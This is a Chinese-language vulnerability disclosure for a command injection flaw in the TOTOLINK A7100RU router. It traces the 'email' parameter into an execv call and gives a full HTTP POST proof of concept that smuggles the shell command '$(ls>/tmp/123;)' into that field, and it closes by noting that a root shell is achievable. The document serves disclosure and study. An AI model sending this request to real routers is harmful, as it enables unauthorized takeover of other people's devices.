






# TOTOlink A7100RU(V7.4cu.2313_B20191024)路由器存在命令注入漏洞

## 写在前面

厂商信息：http://totolink.net/

固件下载地址：http://totolink.net/home/menu/detail/menu_listtpl/download/id/185/ids/36.html

## 1.影响版本

 

 

 

图1为固件版本信息

## 2.漏洞细节



程序通过获取email参数下的内容传递给v13，之后将v13带入到Uci_Set_Str函数中



在Uci_Set_Str函数中，通过snprintf函数，将a4匹配到的内容格式化进v11，之后将v11带入cstesystem函数中



函数直接将用户输入内容带入到execv函数中，存在命令注入漏洞

## POC

```jsx
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
Content-Length: 79
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Content-Type: application/x-www-form-urencoded; charset=UTF-8
Origin: <http://192.168.0.1>
Referer: <http://192.168.0.1/adm/status.asp?timestamp=1647872753309>
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: SESSION_ID=2:1647872744:2
Connection: close

{"topicurl":"setting/delStaticDhcpRules",
"email":"1$(ls>/tmp/123;)"}
```

复现结果如下

 

 

图2 POC攻击效果

最后，您可以编写exp，这可以实现获得根shell的非常稳定的效果

 

 